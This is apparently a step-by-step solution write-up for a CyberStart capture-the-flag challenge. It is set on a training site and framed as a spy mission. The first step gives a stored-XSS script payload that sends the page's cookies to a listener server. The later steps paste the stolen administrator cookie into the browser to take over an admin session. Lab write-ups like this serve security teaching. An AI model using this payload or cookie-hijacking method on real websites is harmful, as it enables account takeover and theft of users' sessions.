 # Unsafe Deposit Box
Agent 707, we've been working with the bank to try and make their website more secure, which will hopefully prevent the Bulldogs getting access.

As part of our penetration testing we've found a page which might be vulnerable to XSS. It's the page you use to request further information about safety deposit boxes. You need to be logged in as a standard bank customer to get to that page, but we think you can use XSS to change the access level to admin. Give it a try.

## Steps
1. Type in *\<script>window.location = "server" + document.cookie\</script>* in *Name* or *Phone* text box
    - Replace *server* with where it says after *Server started* on at the top

![console server](/assets/screenshots/hq-11-UnsafeDepositBox/step-1.png)

![XSS code](/assets/screenshots/hq-11-UnsafeDepositBox/step-2.png)
 
2. Click the Submit button
1. Copy the administrator cookie value that generates at the top and go into *Cookies* using *Inspect*
    - Inspect > Application > Cookies > https://play.cyberstart.com

![admin cookie](/assets/screenshots/hq-11-UnsafeDepositBox/step-3.png)

![application location](/assets/screenshots/hq-11-UnsafeDepositBox/step-4.png)

![cookie location](/assets/screenshots/hq-11-UnsafeDepositBox/step-5.png)

4. Replace the *depositUser* cookie value with the copied administrator cookie value

![replace depositUser cookie](/assets/screenshots/hq-11-UnsafeDepositBox/step-6.png)

5. Refresh the page
